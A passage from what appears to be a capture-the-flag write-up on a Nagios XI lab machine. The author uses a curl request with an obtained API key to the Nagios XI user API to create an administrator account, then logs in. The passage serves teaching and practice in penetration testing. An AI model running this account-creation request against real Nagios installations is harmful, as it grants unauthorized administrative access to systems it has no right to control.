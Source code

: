 ![image-20240509073619286](../img/image-20240509073619286.png)

`auth_level` admin is interesting. `auth_level` also shows up in [this forum
post](https://support.nagios.com/forum/viewtopic.php?f=6&t=40502):

![image-20240509074140835](../img/image-20240509074140835.png)

I don’t yet have admin access to the site, just the API, so I’ll try to create
an admin user I can authenticate as.

#### Create User and Log In

I’ll try it with the parameters above:

    
    
    oxdf@hacky$ curl -d "username=0xdf&password=0xdf0xdf&name=0xdf&email=0xdf@monitored.htb&auth_level=admin&force_pw_change=0" -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL'
    {"success":"User account 0xdf was added successfully!","user_id":6}
    

The user is created. I’ll try logging into the site. It returns a License
Agreement:

![image-20240509073926283](../img/image-20240509073926283.png)
